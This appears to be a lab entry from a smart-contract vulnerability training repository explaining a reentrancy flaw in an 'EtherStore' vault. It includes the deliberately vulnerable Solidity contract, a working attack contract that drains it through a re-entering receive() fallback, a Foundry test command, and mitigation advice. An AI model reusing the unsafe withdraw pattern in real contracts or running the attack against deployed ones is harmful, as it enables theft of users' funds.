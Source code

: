 # Reentrancy
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)   
**Name:** Reentrancy Vulnerability

**Description:**  
The EtherStore Reentrancy Vulnerability is a flaw in the smart contract design that allows
an attacker to exploit reentrancy and withdraw more funds than they are entitled to from the EtherStore contract.
The vulnerability arises due to the withdrawFunds function in the EtherStore contract,
where the Ether is transferred to the attacker's address before updating their balance.
This allows the attacker's contract to make a reentrant call back to the withdrawFunds function before the balance update,leading to multiple withdrawals and potentially draining all the Ether from the EtherStore contract.

**Scenario:**  
EtherStore is a simple vault, it can manage everyone's ethers.
But it's vulnerable, can you steal all the ethers ?

**Mitigation:**  
Follow check-effect-interaction and use OpenZeppelin Reentrancy Guard.

**REF:**  

https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  

**EtherStore Contract:**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```
**How to Test:**

forge test --contracts src/test/Reentrancy.sol-vvvv  
```  
// Function to test the EtherStore for reentrancy attack vulnerability
function testReentrancy() public {
    // Execute the Attack function of the attack contract
    attack.Attack();
}

// Contract for the attack on EtherStore
contract EtherStoreAttack is Test {
    // The EtherStore contract to be attacked
    EtherStore store;

    // Constructor function to initialize the EtherStore contract
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // Function to perform the attack
    function Attack() public {
        // Log the balance of the EtherStore contract
        console.log("EtherStore balance", address(store).balance);

        // Deposit 1 ether to the EtherStore contract
        store.deposit{value: 1 ether}();

        // Log the new balance of the EtherStore contract
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        // Withdraw 1 ether from the EtherStore contract, this is the point of exploit
        store.withdrawFunds(1 ether); 

        // Log the balance of the attacking contract
        console.log("Attack contract balance", address(this).balance);
        // Log the balance of the EtherStore contract after withdrawal
        console.log("EtherStore balance", address(store).balance);
    }

    // Fallback function to exploit reentrancy vulnerability
    receive() external payable {
        // Log the balance of the attacking contract
        console.log("Attack contract balance", address(this).balance);
        // Log the balance of the EtherStore contract
        console.log("EtherStore balance", address(store).balance);
        // If the balance of the EtherStore contract is at least 1 ether
        if (address(store).balance >= 1 ether) {
            // Withdraw 1 ether, this is the point of exploit in the fallback function
            store.withdrawFunds(1 ether); 
        }
    }
}
```  
Red box: exploited successful, drained out the EtherStore.  
![Alt text](image-3.png)  

